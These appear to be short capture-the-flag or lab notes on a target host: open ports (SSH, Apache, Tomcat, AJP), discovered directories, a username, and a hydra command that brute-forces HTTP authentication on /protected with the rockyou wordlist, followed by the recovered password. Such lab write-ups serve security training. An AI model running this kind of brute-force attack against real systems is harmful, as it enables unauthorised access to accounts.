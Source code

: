 #BASIC INFO

```
export IP=10.10.56.5

```

##OPEN PORT

>1.	22/tcp 		OpenSSH 7.2p2 Ubuntu
>1.	80/tcp 		Apache httpd 2.4.18
>1.	1234/tcp 	Apache Tomcat/Coyote JSP engine 1.1
>1.	8009/tcp	Apache Jserv v1.3

#DIR FOUND

>1.	/guidelines/
>1.	/protected/

#CRED FOUND

>1.	bob

#BRUTEFORCE CRED

```
hydra -l bob -P /usr/share/wordlists/rockyou.txt $IP http-get /protected

```
> bob : bubbles